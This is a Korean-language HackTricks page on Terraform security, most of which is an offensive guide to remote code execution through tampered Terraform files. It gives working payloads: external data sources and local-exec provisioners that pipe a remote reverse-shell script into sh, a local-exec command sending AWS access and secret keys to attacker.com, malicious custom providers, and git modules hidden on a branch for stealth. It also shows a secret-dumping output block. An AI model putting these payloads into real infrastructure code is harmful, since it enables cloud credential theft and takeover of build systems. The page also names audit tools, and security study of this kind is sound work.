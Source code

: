 # Terraform 보안

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 기본 정보

[문서에서 참조: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform은 **인프라를 코드로 정의**할 수 있는 도구로, 인간이 읽을 수 있는 구성 파일에서 **클라우드 및 온프레미스 리소스**를 정의하고 버전 관리, 재사용 및 공유할 수 있습니다. 그런 다음 일관된 워크플로우를 사용하여 인프라의 전체 수명 주기 동안 인프라를 프로비저닝하고 관리할 수 있습니다. Terraform은 컴퓨팅, 스토리지, 네트워킹 리소스와 같은 저수준 구성 요소뿐만 아니라 DNS 항목 및 SaaS 기능과 같은 고수준 구성 요소도 관리할 수 있습니다.

### Terraform은 어떻게 작동합니까?

Terraform은 클라우드 플랫폼 및 기타 서비스에 대한 리소스를 생성하고 관리하기 위해 해당 응용 프로그래밍 인터페이스(API)를 통해 리소스를 생성하고 관리합니다. 제공자는 Terraform이 액세스 가능한 API를 통해 거의 모든 플랫폼이나 서비스와 작동할 수 있도록 합니다.

![](<../.gitbook/assets/image (33).png>)

HashiCorp와 Terraform 커뮤니티는 이미 **1700개 이상의 제공자**를 작성하여 수천 가지 다른 유형의 리소스와 서비스를 관리하고 있으며, 이 숫자는 계속해서 증가하고 있습니다. Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog 등을 포함한 모든 공개적으로 사용 가능한 제공자를 [Terraform 레지스트리](https://registry.terraform.io/)에서 찾을 수 있습니다.

Terraform의 핵심 워크플로우는 세 가지 단계로 구성됩니다:

* **작성:** 여러 클라우드 제공자와 서비스에 걸쳐 리소스를 정의합니다. 예를 들어, 가상 사설 클라우드(VPC) 네트워크에서 가상 머신에 응용 프로그램을 배포하는 구성을 생성할 수 있습니다. 이 구성에는 보안 그룹과 로드 밸런서가 포함됩니다.
* **계획:** Terraform은 기존 인프라 및 구성에 기반하여 생성, 업데이트 또는 삭제할 인프라를 설명하는 실행 계획을 생성합니다.
* **적용:** 승인되면 Terraform은 제안된 작업을 올바른 순서로 수행하며, 모든 리소스 종속성을 고려합니다. 예를 들어, VPC의 속성을 업데이트하고 해당 VPC의 가상 머신 수를 변경하는 경우, Terraform은 가상 머신을 확장하기 전에 VPC를 다시 생성합니다.

![](<../.gitbook/assets/image (81).png>)

## Terraform Lab

컴퓨터에 Terraform을 설치하세요.

여기 [가이드](https://learn.hashicorp.com/tutorials/terraform/install-cli)와 [Terraform을 다운로드하는 가장 좋은 방법](https://www.terraform.io/downloads)이 있습니다.

## Terraform에서의 RCE

Terraform은 **웹 페이지나 네트워크 서비스를 노출하는 플랫폼이 없기 때문에** 열거할 수 있는 방법이 없습니다. 따라서 terraform을 침해하려면 **terraform 구성 파일을 추가/수정할 수 있어야** 합니다.

그러나 terraform은 올바르게 작동하기 위해 다양한 위치에 **특권 액세스**가 있으므로 침해하기 매우 민감한 구성 요소입니다.

공격자가 terraform이 실행되는 시스템을 침해할 수 있는 주요 방법은 terraform 구성을 저장하는 **저장소를 침해**하는 것입니다. 왜냐하면 어느 시점에서는 이 구성이 **해석**될 것이기 때문입니다.

실제로, **PR이 생성된 후 자동으로 terraform plan/apply를 실행하는 솔루션**인 Atlantis와 같은 솔루션이 있습니다:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

terraform 파일을 침해할 수 있다면 `terraform plan` 또는 `terraform apply`를 실행할 때 RCE를 수행할 수 있는 다양한 방법이 있습니다.

### Terraform plan

Terraform plan은 terraform에서 **가장 많이 사용되는 명령**이며, 개발자 및 terraform을 사용하는 솔루션은 항상 이를 호출합니다. 따라서 `terraform plan`에서 임의의 명령을 실행하는 terraform 구성 파일을 조작하는 것이 **가장 쉬운 RCE 방법**입니다.

#### 외부 제공자 사용

Terraform은 [`external` 제공자](https://registry.terraform.io/providers/hashicorp/external/latest/docs)를 제공하여 Terraform과 외부 프로그램 간의 인터페이스를 제공합니다. `external` 데이터 소스를 사용하여 `plan` 중에 임의의 코드를 실행할 수 있습니다.

다음과 같이 terraform 구성 파일에 주입하면 `terraform plan`을 실행할 때 rev shell이 실행됩니다:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 커스텀 프로바이더 사용

공격자는 [커스텀 프로바이더](https://learn.hashicorp.com/tutorials/terraform/provider-setup)를 [Terraform 레지스트리](https://registry.terraform.io/)에 전송한 다음, 기능 브랜치의 Terraform 코드에 추가할 수 있습니다 ([여기에서 예시 확인](https://alex.kaskaso.li/post/terraform-plan-rce)).
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
`init`에서 공급자가 다운로드되며, `plan`이 실행될 때 악성 코드가 실행됩니다.

[https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)에서 예제를 찾을 수 있습니다.

#### 외부 참조 사용

언급된 두 가지 옵션 모두 유용하지만, 매우 은밀하지는 않습니다 (두 번째 옵션이 첫 번째 옵션보다 더 은밀하지만 더 복잡합니다). 이 제안을 따라 **더 은밀한 방법**으로 이 공격을 수행할 수 있습니다:

* 테라폼 파일에 직접 rev 쉘을 추가하는 대신, rev 쉘을 포함하는 **외부 리소스를 로드**할 수 있습니다:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
[https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)에서 rev shell 코드를 찾을 수 있습니다.

* 외부 리소스에서는 **ref** 기능을 사용하여 **repo 내의 브랜치에 terraform rev shell 코드를 숨길 수 있습니다**. 예를 들어 다음과 같이 사용할 수 있습니다: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply는 모든 변경 사항을 적용하기 위해 실행됩니다. 또한 **local-exec**를 사용하여 **악성 Terraform 파일을 삽입하여 RCE를 얻을 수도 있습니다**.\
다음과 같은 페이로드가 `main.tf` 파일에 포함되도록만 확인하면 됩니다:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
이전 기법의 제안을 따르고 외부 참조를 사용하여이 공격을 **더 은밀하게 수행** 할 수 있습니다.

## 시크릿 덤프

`terraform apply`를 실행하여 테라폼에서 사용되는 **시크릿 값들을 덤프** 할 수 있도록 테라폼 파일에 다음과 같이 추가합니다:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## 감사 도구

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec는 테라폼 코드의 정적 분석을 사용하여 잠재적인 잘못된 구성을 식별합니다.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan은 인프라 코드의 정적 코드 분석기입니다.

## 참고 자료

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family)인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.

</details>
